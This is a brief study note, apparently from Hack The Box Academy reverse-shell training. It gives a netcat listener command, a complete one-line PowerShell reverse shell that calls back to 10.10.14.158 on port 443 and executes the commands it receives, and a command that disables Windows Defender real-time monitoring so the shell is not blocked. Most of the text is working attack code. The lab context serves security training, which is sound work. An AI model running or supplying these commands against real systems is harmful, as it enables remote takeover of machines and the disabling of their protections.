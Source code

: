 
Host is listening, while target initiates connection.

Listen on Host
```shell-session
sudo nc -lvnp 443
```

There is a script: https://academy.hackthebox.com/module/115/section/1106
```
powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.14.158',443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + 'PS ' + (pwd).Path + '> ';$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()"
```
It is flagged by Windows Defender. Copy and paste in target.

Disable Windows Defender:
```powershell-session
Set-MpPreference -DisableRealtimeMonitoring $true
```

